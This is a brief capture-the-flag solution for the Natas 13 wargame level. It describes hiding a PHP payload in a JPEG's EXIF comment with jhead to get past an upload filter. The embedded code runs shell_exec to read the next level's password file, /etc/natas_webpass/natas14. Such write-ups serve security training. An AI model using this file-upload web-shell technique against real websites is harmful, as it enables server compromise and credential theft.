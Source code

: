 # Natas 13 solution

1. Get jpg cat image, make it < 1kb
2. Clean image (delete extra headers): `jhead -purejpg <filename>.jpg`
3. Edit exif comment `jhead -ce <filename>.jpg`
``` <?php
$output = shell_exec('cat /etc/natas_webpass/natas14');
echo $output;
 __halt_compiler();
 ?>```
 4. upload file and voila

